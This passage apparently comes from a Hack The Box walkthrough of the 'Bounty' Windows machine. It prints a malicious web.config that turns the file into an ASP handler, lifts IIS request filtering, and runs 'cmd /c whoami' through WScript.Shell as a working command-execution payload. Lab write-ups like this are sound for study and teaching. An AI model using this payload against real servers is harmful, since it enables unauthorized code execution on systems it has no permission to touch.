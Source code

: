 ```xml
-->
```

![Desktop View](/assets/img/htb/machines/windows/easy/bounty/3.png)

## Exploitation

If we replace the content of `web.config` by the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("<!-"&"-")
%>
-->
```

We get the result of the `whoami` command:

![Desktop View](/assets/img/htb/machines/windows/easy/bounty/merlin.png)
